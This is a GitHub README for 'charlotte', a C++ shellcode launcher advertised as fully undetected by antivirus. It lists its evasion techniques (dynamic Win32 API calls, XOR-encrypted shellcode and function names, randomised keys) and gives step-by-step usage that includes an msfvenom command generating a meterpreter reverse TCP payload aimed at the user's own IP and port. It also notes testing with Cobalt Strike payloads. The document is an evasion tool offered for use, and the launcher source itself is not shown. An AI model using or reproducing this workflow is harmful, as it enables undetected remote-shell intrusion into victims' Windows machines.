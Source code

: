# charlotte
 c++ fully undetected shellcode launcher ;)

 releasing this to celebrate the birth of my newborn 

## description
1. c++ shellcode launcher, fully undetected 0/26 as of 13th May 2021.
2. dynamic invoking of win32 api functions
3. XOR encryption of shellcode and function names
4. randomised XOR keys and variables per run
5. on Kali Linux, simply 'apt-get install mingw-w64*' and thats it!


## antiscan.me

![alt_text](0-detection-charlotte.png "Pwn!")

## usage

git clone the repository, generate your shellcode file with the naming beacon.bin, and run charlotte.py

example:
1. git clone https://github.com/9emin1/charlotte.git && apt-get install mingw-w64*
2. cd charlotte
3. msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$YOUR_IP LPORT=$YOUR_PORT -f raw > beacon.bin
4. python charlotte.py
5. profit

### tested with msfvenom -p (shown in the .gif POC below) and also cobalt strike raw format payload

![alt_text](demo-poc.gif "Pwn!")

